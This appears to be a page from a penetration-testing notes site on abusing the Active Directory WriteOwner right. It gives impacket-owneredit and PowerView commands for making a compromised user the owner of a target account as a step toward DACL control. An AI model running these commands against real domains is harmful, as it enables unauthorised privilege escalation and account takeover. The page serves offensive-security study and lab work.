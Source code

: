 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WriteOwner

## Information

{% hint style="warning" %}
* **Ownership** give us the right to modify the object's permissions (DACL).
* Once we're owner, we can give ourselves `FullControl`, we don’t automatically get it.
{% endhint %}

This permission has the ability to modify the owner of the user, i.e, give the [`Owns`](owns.md) permission, which can then being used to modify object security descriptors, regardless of permissions on the object's DACL.

{% tabs %}
{% tab title="impacket-owneredit" %}
{% code overflow="wrap" %}
```bash
impacket-owneredit -action write -new-owner <compromised-user> -target <target-account> <domain>/<compromised-user>:<pass>
```
{% endcode %}
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# Create an object with the compromised account's credentials
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

# Set the ownership of the target object with PowerView
Set-DomainObjectOwner -Credential $Cred -TargetIdentity "<target-account>" -OwnerIdentity "<compromised-user>"
```
{% endcode %}
{% endtab %}
{% endtabs %}

For subsequent exploitation steps check [`WriteDACL`](writedacl.md).
